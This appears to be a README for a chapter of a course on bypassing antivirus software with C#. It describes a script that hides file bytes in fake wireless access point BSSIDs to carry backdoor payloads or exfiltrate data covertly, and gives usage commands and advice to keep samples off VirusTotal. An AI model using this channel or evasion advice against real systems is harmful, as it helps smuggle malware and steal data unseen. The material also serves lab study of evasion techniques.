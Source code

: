 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 9 : Transferring Backdoor Payload by Wireless Traffic (BSSID)

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 9 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH9

Related Video : 

Video 1 C# Code : https://youtu.be/W0dJGln3tls




Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_BSSID.sh  help :

Example Step1: (Client Side ) ./NativePayload_BSSID.sh -f text-file Fake-AP-Name MonitorMode-Interface

Example Step2: (Server Side ) ./NativePayload_BSSID.sh -s wlanx Exfil-Dump-file

example System A : ./NativePayload_BSSID.sh -f mytext.txt myfakeAP Wlan3mon

example System B : ./NativePayload_BSSID.sh -s wlan0 ExfilDumped.txt

Description: with Step1 (system A) you will inject bytes for (mytext.txt) file to BSSID for Fake AP in this case (myfakeAP) , with Step2 on (system B) you can have this text file via Scanning Fake AP on AIR by Wireless traffic (Using iwlist tool)

Note : before step1 you should make MonitorMode Interface (WlanXmon) by this command for example : airmon-ng start wlan3


![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSID1.png)

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSID2.png)

